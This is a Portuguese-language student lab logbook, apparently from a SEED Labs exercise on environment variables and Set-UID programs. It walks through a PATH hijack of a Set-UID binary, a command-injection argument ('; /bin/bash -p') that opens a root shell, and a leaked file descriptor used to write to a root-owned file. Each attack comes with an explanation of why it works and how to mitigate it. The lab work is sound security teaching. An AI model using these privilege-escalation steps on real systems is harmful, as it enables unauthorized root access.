


# LOGBOOK4: Environment Variables and Set-UID Programs

## Comandos e conceitos introduzidos

| Comando / Função | Uso |
|---|---|
| `printenv` / `env` | Imprimir variáveis de ambiente |
| `export` / `unset` | Definir e apagar variáveis de ambiente (comandos internos da Bash) |
| `fork()` | Cria um novo processo duplicando o processo atual |
| `execve(path, argv[], envp[])` | Substitui o programa em execução no processo atual pelo que está em `path` |
| `system(comando)` | Executa um comando através de uma shell, equivalente a invocar `/bin/sh -c comando` |
| `chown` | Altera o dono (e/ou grupo) de um ficheiro ou diretório |
| `chmod` | Altera permissões de acesso e bits especiais (como o Set-UID) de um ficheiro |
| `setuid(uid)` | Define o UID efetivo do processo; se o processo tiver UID efetivo 0, também atualiza o UID real e o saved-UID |

---

## Questão 1: Tasks 1 a 6

### Task 1: Manipulação de variáveis de ambiente

As variáveis de ambiente são um conjunto de pares nome/valor que o sistema mantém associado a cada processo e que influenciam a forma como esse processo e os programas que ele lança se comportam (por exemplo, o `PATH` indica onde procurar executáveis e o `HOME` aponta para a diretoria pessoal do utilizador).

Usámos o `printenv` e o `env` para listar essas variáveis.

Para as criar e remover usámos o `export` e o `unset`. Ao contrário do `printenv`/`env`, estes dois não são programas autónomos: são comandos internos da própria Bash, pelo que não existe nenhum executável com esse nome fora da shell. Isto faz sentido porque uma variável definida por um programa externo só afetaria o processo desse programa e desapareceria quando ele terminasse; sendo internos, o `export` e o `unset` alteram diretamente o ambiente da shell que estamos a usar, e essa alteração passa depois aos processos-filho que a shell criar.

<p align="center">
  
  
</p>

### Task 2: Propagação de variáveis entre processos (fork)

O `fork()` cria um novo processo duplicando o processo que o chama: o filho começa como uma cópia praticamente exata do pai (há exceções descritas em `man fork`, como o PID). O que queremos perceber nesta task é se as variáveis de ambiente fazem parte daquilo que o filho herda.

Compilámos e corremos o `myprintenv.c`, que usa `fork()` para criar um processo filho. Numa primeira execução chamámos o `printenv()` só no filho e, numa segunda, só no pai (comentando e descomentando a chamada em cada ramo do `switch`). Guardámos os dois outputs em ficheiros separados e comparámo-los com o `diff`.


O `diff` não acusou nenhuma diferença entre os dois ficheiros, ou seja, o pai e o filho imprimiram exatamente o mesmo ambiente. Concluímos que o processo filho herda uma cópia completa das variáveis de ambiente do pai no momento do `fork()`. A partir desse instante cada processo passa a ter o seu próprio espaço de memória, por isso é uma cópia e não uma partilha: qualquer alteração feita depois num dos processos não se reflete no outro.

### Task 3: `execve()` e variáveis de ambiente

Ao contrário do `fork()`, o `execve()` não cria um processo novo: substitui o programa que está a correr no processo atual pelo programa indicado, sobrepondo-lhe o código, os dados e a pilha. A chamada, quando tem sucesso, nunca retorna, porque o programa original deixa de existir. Aqui interessa-nos saber o que acontece às variáveis de ambiente nessa substituição.

Compilámos e corremos o `myenv.c`, que chama `execve("/usr/bin/env", argv, envp)` com dois valores diferentes no terceiro argumento (o `/usr/bin/env` limita-se a imprimir as variáveis de ambiente que recebe):

- Com `NULL`, o `/usr/bin/env` não imprimiu nada, porque não recebeu nenhuma variável de ambiente.
- Com `environ`, o `/usr/bin/env` imprimiu todas as variáveis de ambiente do processo que o chamou.


Ao contrário do `fork()`, o `execve()` não herda automaticamente as variáveis de ambiente do processo que o invoca. Elas só são passadas se as indicarmos explicitamente no terceiro parâmetro (`envp`): se passarmos `NULL`, o novo programa arranca com o ambiente vazio; se passarmos `environ`, entregamos-lhe o ambiente atual do processo.

### Task 4: `system()` e variáveis de ambiente

Corremos um programa que invoca `system("/usr/bin/env")`.


O `/usr/bin/env` voltou a imprimir todas as variáveis de ambiente, desta vez sem termos indicado nada em lado nenhum. A razão está em como o `system()` funciona por dentro: em vez de executar o comando diretamente, corre `/bin/sh -c comando`, ou seja, lança uma shell e pede-lhe que execute o comando. Se olharmos para a implementação do `system()`, essa shell é arrancada com `execl()`, que por sua vez chama `execve()` passando-lhe o array de variáveis de ambiente (`environ`) do processo chamador.

Por isso, ao contrário do `execve()` da Task 3, onde tínhamos de passar explicitamente o `environ`, aqui as variáveis de ambiente são propagadas sem fazermos nada: é o próprio `system()` que trata de as entregar à shell, e esta acaba por as passar ao `/usr/bin/env`.

### Task 5: Variáveis de ambiente em programas Set-UID

Um programa Set-UID corre com os privilégios do dono do ficheiro, e não com os de quem o executa: se o dono for o root, qualquer utilizador que o corra passa a ter, durante aquela execução, privilégios de root. Como o comportamento do programa pode ser influenciado pelas variáveis de ambiente, e estas são escolhidas pelo utilizador (potencialmente malicioso), interessa primeiro perceber que variáveis é que um programa Set-UID chega sequer a herdar do utilizador.

Escrevemos um programa que imprime todas as variáveis de `environ`, tornámo-lo Set-UID root (`sudo chown root printerRoot && sudo chmod 4755 printerRoot`) e, antes de o correr a partir de uma conta de utilizador normal, definimos três variáveis na shell: o `PATH`, o `LD_LIBRARY_PATH` e uma à nossa escolha (`ANY_NAME = ""`).


Em geral as variáveis de ambiente do utilizador são de facto herdadas pelo processo Set-UID, incluindo o `PATH` e a variável que inventámos: aparecem na listagem tal como as definimos. A surpresa é que nem todas passam. O `LD_LIBRARY_PATH` que definimos não aparece no ambiente do processo Set-UID. O sistema remove propositadamente algumas variáveis perigosas da família `LD_*` quando o UID real é diferente do UID efetivo (que é o caso de um Set-UID corrido por outro utilizador), precisamente para impedir que um utilizador normal consiga influenciar as bibliotecas que vão ser carregadas por um programa a correr com privilégios elevados.

### Task 6: Exploração da variável `PATH` num programa Set-UID

O objetivo é mostrar que um programa Set-UID que invoca `system("ls")` com um caminho relativo pode ser enganado para correr código arbitrário com privilégios de root, mexendo apenas na variável `PATH`.

Por omissão o `/bin/sh` aponta para o `/bin/dash`, que deteta quando está a correr num processo Set-UID e larga logo os privilégios, o que neutraliza o ataque. Para o demonstrar sem essa proteção, seguimos a indicação do guião e trocámos a ligação para o `zsh`:

```bash
sudo ln -sf /bin/zsh /bin/sh
```

Compilámos o programa vulnerável e tornámo-lo Set-UID root:

```c
/* vulnerable.c */
#include <stdio.h>
#include <stdlib.h>
int main()
{
    system("ls");
    return 0;
}
```

```bash
gcc vulnerable.c -o vulnerable
sudo chown root vulnerable
sudo chmod 4755 vulnerable
```

Criámos um `ls` num diretório nosso:

```bash
nano /home/seed/bin/ls
```
```bash
#!/bin/sh
whoami
```
```bash
chmod +x /home/seed/bin/ls
```

Pusemos esse diretório no início do `PATH` e corremos o programa Set-UID:

```bash
export PATH=/home/seed/bin/:$PATH
./vulnerable
```


Em vez de executar o `/bin/ls`, o `vulnerable` correu o nosso `ls` falso, e o `whoami` lá dentro imprimiu `root`. O nosso código correu com privilégios de administrador.

Os passos encadeiam-se assim:

1. O programa é Set-UID root, por isso o seu UID efetivo é 0 durante toda a execução.
2. O `system("ls")` invoca `/bin/sh -c "ls"`. Como trocámos o `/bin/sh` pelo `/bin/zsh`, que não larga privilégios em contexto Set-UID, essa shell continua a correr com UID efetivo 0.
3. Como o `ls` é passado com caminho relativo, a shell procura-o pelos diretórios do `PATH`, pela ordem em que aparecem. Tendo nós posto o `/home/seed/bin` logo no início, é o nosso `ls` que é encontrado primeiro, antes do `/bin/ls` verdadeiro.
4. O nosso script corre com o UID efetivo herdado do processo (root), e é por isso que o `whoami` devolve `root`.

---

## Questão 2: Task 8 (Step 1), exploração do `catall.c` via `system()`

O objetivo é mostrar que, sem tocar no código C, conseguimos abusar do executável Set-UID root para obter uma shell com privilégios de root e, a partir dela, apagar um ficheiro que pertence ao root. Tal como na Task 6, o `/bin/sh` tem de continuar a apontar para o `/bin/zsh`; com o `dash` o ataque não funcionaria, porque este deteta a execução Set-UID e larga os privilégios, e o comando injetado acabaria por correr como `seed`.

Começámos por criar o ficheiro-alvo com conteúdo, demos o root como dono e confirmámos as permissões:

```bash
nano text
sudo chown root text
sudo chmod 7544 text
ls -l text        # -r-sr-Sr-T 1 root seed ... text
whoami            # seed
```

Compilámos o `catall.c` para o binário `vulnerable` e tornámo-lo Set-UID root (nesta fase apenas a linha do `system()` está ativa):

```c
/* catall.c (excerto relevante) */
v[0] = "/bin/cat"; v[1] = argv[1]; v[2] = NULL;
command = malloc(strlen(v[0]) + strlen(v[1]) + 2);
sprintf(command, "%s %s", v[0], v[1]);
// Use only one of the followings.
system(command);
// execve(v[0], v, NULL);
```

```bash
gcc catall.c -o vulnerable
sudo chown root vulnerable
sudo chmod 4755 vulnerable
```

Correr o programa com um nome de ficheiro normal limita-se a fazer `cat` do ficheiro:

```bash
./vulnerable "/home/seed/Desktop/text"   # imprime "Hello World!"
```

Depois injetámos um segundo comando através do argumento, usando o `;` para abrir uma shell com privilégios preservados:

```bash
./vulnerable "/home/seed/Desktop/text; /bin/bash -p"
```

Isto abriu uma shell root (`bash-5.0#`), a partir da qual apagámos o ficheiro do root:

```bash
bash-5.0# whoami
root
bash-5.0# rm /home/seed/Desktop/text
bash-5.0# ls /home/seed/Desktop/
bash-5.0# exit
```


O ficheiro, que pertencia a root, acabou apagado por um utilizador sem privilégios de administrador.

O `catall.c` monta a string `"/bin/cat <argumento>"` e entrega-a ao `system()`. Como o `system()` corre `/bin/sh -c "<string>"`, a shell interpreta metacaracteres como o `;`, o `|` ou o `&&`. Quando passamos um argumento do tipo `"ficheiro; /bin/bash -p"`, estamos na prática a dar-lhe dois comandos separados por `;`: o `cat` original e o `/bin/bash -p` que injetámos.

Como o `vulnerable` é Set-UID root e o `/bin/sh` aponta para o `/bin/zsh` (que não larga os privilégios), a shell lançada pelo `system()` corre com UID efetivo 0. O `/bin/bash -p` usa o modo privilegiado (`-p`), que impede o bash de repor o `uid` ao sair do contexto Set-UID, pelo que a shell resultante fica mesmo como root. É dentro dessa shell que executámos o `rm`, que corre com privilégios de root e contorna as permissões que, de outra forma, impediriam o `seed` de apagar o ficheiro.

A raiz do problema está em o `system()` entregar a interpretação do comando a uma shell completa, em vez de executar diretamente o binário pretendido. Os dados que passamos só fazem estrago porque há uma shell a interpretá-los, e é isto que torna o `system()` perigoso num programa Set-UID sempre que o comando inclui dados do utilizador sem qualquer validação.

Se alterarmos o programa para chamar diretamente o binário com `execve()` em vez de `system()` (comentando a linha do `system()`), recompilarmos para `vulnerable` e repetirmos o ataque, a injeção deixa de resultar:

```c
// Use only one of the followings.
//system(command);
execve(v[0], v, NULL);
```

Agora o argumento `"/home/seed/Desktop/text; /bin/bash -p"` chega ao `/bin/cat` como um único nome de ficheiro (o `;` e o `/bin/bash -p` incluídos), e não como uma linha de comando para uma shell interpretar. Sem shell pelo meio, nada é injetado e o `/bin/cat` apenas dá erro por não existir nenhum ficheiro com aquele nome:

```
/bin/cat: '/home/seed/Desktop/text; /bin/bash -p': No such file or directory
```


A diferença está em que o `execve()` executa o binário indicado tratando os argumentos como dados, enquanto o `system()` passa tudo por uma shell, que os trata como código. Evitar o `system()`, ou validar com rigor o que lhe é passado, é a principal defesa contra injeção de comandos em programas Set-UID.

---

## Questão 3: Task 9, capability leaking

### 1. Preparação do ambiente

Criámos o ficheiro-alvo, pertencente a root e sem permissão de escrita para o `seed`:

```bash
sudo touch /etc/zzz
sudo chown root:root /etc/zzz
sudo chmod 0644 /etc/zzz
```

Compilámos o `cap_leak.c` e configurámo-lo como Set-UID root:

```bash
gcc cap_leak.c -o cap_leak
sudo chown root:root cap_leak
sudo chmod 4755 cap_leak
```

### 2. Evidência da execução

```bash
./cap_leak
```

O programa imprime o descritor que obteve (por exemplo `fd is 3`) e lança uma shell interativa, já sem privilégios de root, porque chamou `setuid(getuid())` antes de executar a shell. A partir dessa shell, sem sermos root, escrevemos através do descritor:

```bash
whoami                               # seed
echo "Escrita no ficheiro zzz" >&3
exit
```

E confirmámos, já fora do programa:

```bash
cat /etc/zzz
```


O texto que escrevemos a partir da shell não privilegiada aparece em `/etc/zzz`, apesar de o `seed` não ter permissão de escrita nesse ficheiro (`0644`, dono root).

### 3. Explicação técnica

Capability leaking é quando um processo privilegiado obtém recursos enquanto ainda está com privilégios elevados e depois baixa o seu nível de privilégio (`setuid()`), sem largar esses recursos. O processo deixa de ser root no que toca ao UID, mas continua com acessos que só deviam existir enquanto era root.

No `cap_leak.c` o mecanismo é este:

```c
fd = open("/etc/zzz", O_RDWR | O_APPEND);   // (1) ainda com euid = 0
setuid(getuid());                            // (2) descarta privilégios
v[0] = "/bin/sh"; v[1] = 0;
execve(v[0], v, 0);                          // (3) lança shell sem privilégios
```

1. O `open()` acontece antes do `setuid()`, ou seja, com o UID efetivo do processo ainda a 0 (root). O kernel verifica as permissões nesse momento e, por ser root, devolve um descritor com leitura e escrita (`O_RDWR`), apesar das permissões `0644` que em condições normais impediriam o `seed` de escrever.
2. Esse descritor (`fd`) aponta para uma *open file description* interna do kernel. As permissões associadas a essa referência ficam fixadas no momento da abertura e não voltam a ser verificadas a cada escrita seguinte.
3. O `setuid(getuid())` só altera o UID real/efetivo/saved do processo; não fecha nenhum descritor que já esteja aberto.
4. O `execve()` substitui a imagem do processo pelo `/bin/sh`, mas por omissão os descritores abertos sobrevivem ao `execve()` (a não ser que tenham a flag `FD_CLOEXEC`, o que aqui não acontece). Por isso a shell resultante herda o `fd` 3, aberto com permissão de escrita sobre o `/etc/zzz`.

O recurso explorado é o file descriptor (`fd` 3) para o `/etc/zzz`, aberto com `O_RDWR | O_APPEND` enquanto o processo ainda tinha UID efetivo 0. É esse descritor, e não qualquer permissão do UID atual (`seed`), que deixa a escrita via `echo ... >&3` passar.

A vulnerabilidade existe porque: o `open()` acontece antes da queda de privilégio, o descritor nunca é fechado e o `execve()` não o marca para fechar automaticamente. Bastava falhar uma destas condições (fechar o `fd` antes do `setuid`, marcá-lo com `FD_CLOEXEC`, ou abrir o ficheiro só depois do `setuid`) para o ataque deixar de funcionar.

### 4. Medidas de mitigação

- Abrir os ficheiros privilegiados só depois do `setuid()`, sempre que a lógica do programa o permita, para que a abertura já use os privilégios finais.
- Fechar explicitamente com `close(fd)` qualquer descritor privilegiado antes de largar os privilégios ou de lançar uma shell com `execve()`.
- Marcar os descritores com a flag `FD_CLOEXEC` (via `fcntl(fd, F_SETFD, FD_CLOEXEC)`), para serem fechados automaticamente em qualquer `exec*()` seguinte.
- Em sistemas com POSIX capabilities, limpar explicitamente as capabilities com `cap_set_proc()` / `libcap`, em vez de confiar apenas na troca de UID.
- Evitar o Set-UID sempre que possível, preferindo alternativas como `sudo` com regras específicas, capabilities do Linux, `polkit`, ou um daemon dedicado que faça a operação privilegiada de forma controlada.
- Largar os privilégios de root assim que a operação privilegiada estiver feita, seguindo o princípio do menor privilégio.
- Auditar todos os recursos (ficheiros, sockets, memória partilhada) obtidos antes de qualquer queda de privilégio num programa Set-UID.

### 5. Evidência final e conclusões

O `cat /etc/zzz` corrido fora do programa, já sem nenhum processo privilegiado em curso, mostra que o conteúdo escrito pelo `seed` (como confirma o `whoami` dentro da shell gerada pelo próprio exploit) ficou mesmo gravado no ficheiro que pertence a root. Isto comprova, de forma independente da sessão onde corremos o ataque, que um utilizador sem permissão de escrita em `/etc/zzz` conseguiu escrever lá através do `cap_leak`.

Baixar o UID de um processo com `setuid()` não chega, por si só, para garantir que o processo deixou de ser privilegiado. Recursos obtidos antes da queda de privilégio continuam acessíveis depois dela e tornam-se um vetor de escalada de privilégios indireta. Um programa Set-UID bem feito tem de tratar explicitamente o ciclo de vida de todos os recursos privilegiados que adquire, e não só do seu próprio UID.
